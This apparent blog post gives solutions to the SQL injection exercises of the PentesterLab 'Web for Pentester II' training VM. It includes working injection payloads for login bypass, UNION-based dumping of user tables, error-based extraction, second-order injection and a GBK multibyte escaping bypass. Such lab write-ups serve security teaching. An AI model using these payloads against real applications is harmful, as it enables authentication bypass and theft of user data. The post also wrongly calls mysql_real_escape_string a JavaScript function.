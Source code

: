 ```yaml
---
layout: post
title: Web for Pentester II - SQL Injection
date: 2015-08-20 
author: yzh503
summary: All the solutions of SQL injection part of Web for Pentester II
categories: Web_Penetration
tags: 
 - Web penetration
 - SQL injection
---
```


##  Background 
SQL injection is a type of vulnerabilities of SQL syntax. Based on SQL commands knowledgement, you can insert your own query into the origin code to bypass the authentication page or to get sensitive information. There are a bunch of good free examples for web penetration testing in [Pentester Lab](http://pentesterlab.com). In this article, we will go through each example of SQL injection in [Web for Pentester II](https://pentesterlab.com/exercises/web_for_pentester_II). Make sure you give the VM at least 1 GB of RAM, and host-only network. OK, now open the page and get started, Using nmap or typing ifconfig in the VM to get the IP. 

##  Solutions 
### Example 1
It's pretty straightforward. Use the very basic injection technique. Type the following in the username. As the course of pentester lab stated, password is usually hashed or encrypted, so it's better to perform this in username.
{% highlight mySQL %}
' or 1=1 #
{% endhighlight %}
Note that assume the original query is like
{% highlight mySQL%}
SELECT * FROM users WHERE username='******' AND password='******'
{% endhighlight %}
single quote ' can be used to escape from string, and insert query. After we send the request, the query would be like 
{% highlight mySQL%}
SELECT * FROM users WHERE username='' or 1=1 # ' AND password=''
{% endhighlight %}
The WHERE clause became always true, and things after # was commented out, so then the server got a result, and we are done.


### Example 2
In this example, the number of users returned is restricted.
{% highlight mySQL %}
' or 1=1 LIMIT 1 #
{%endhighlight%}


### Example 3
In this example, single quotes are removed in the query, but it's still breakable by using '\'. The query will become like
{% highlight mySQL %}
SELECT * FROM users WHERE username='\' AND password=' or 1=1 #'
{%endhighlight%}
The second single quote is turned to a character by backslash. The actual username in the query is "\' AND password=". The string is closed by the first quote of password.

### Example 4
There is no text box, so look at the address bar. 
{% highlight mysql %}
.../example4/?req=username%3d%27hacker%27
{% endhighlight  %}
Decode the url, 
{% highlight mysql %}
username='hacker'
{% endhighlight %}
This gives the server a username, and this string is likely to be in WHERE clause. To confirm this, change the url to
{% highlight mysql %}
.../example4/?req=username='
{% endhighlight %}
This gives you an sql query error, which shows the actual query. The entire string after "req=" is in WHERE clause. Chagne the url to this.
{% highlight mysql %}
.../example4/?req=' or 1=1 #
{% endhighlight %}


### Example 5
This is a union-based SQL injection.
{%highlight mysql%}
.../example5/?limit=3 union all select * from users
{%endhighlight%}


###Example 6 
Change the url to
{%highlight mysql%}
.../example5/?group=username union all select * from users
{%endhighlight%}
or simple delete group
{%highlight mysql%}
.../example5/?
{%endhighlight%}
This is a dump example using group by.


### Example 7
Pentester lab provides an error-pone statement, 
{%highlight mysql%}
extractvalue('%3Cxml%3E',concat(%22/%22,(select%20version())))
{%endhighlight%}
but I prefer to just use a single quote here, which has the same result on web for pentester II pages.
With an error message displayed, you can easily see the structure of the query.
![msg](http://i.imgur.com/1iWLWTB.png) 
Same as example 6, delete suffix or use union-based injection to display all users.


### Example 8
Create a few users randomly first. Create a new user named the following:
{%highlight mysql%}
' union all select * from users where username='whatever_you_want_to_check' #
or 
' union all select * from users where id='whichever_you_want_to_check' #
{%endhighlight%}
With this user, you may check any user you want. The vulnerability of this one is that the value coming crom database is usually seen as trustable.


### Example 9
This page uses a Javascript function  mysql_real_escape_string(), which removes any escape that you enter in. However, this function does not work properly with GBK character. with a GBK character, followed by a single quote, this quote will not be removed. Enter the following to bypass the authentication.
{%highlight mysql%}
呵' or 1=1 #
{%endhighlight%}




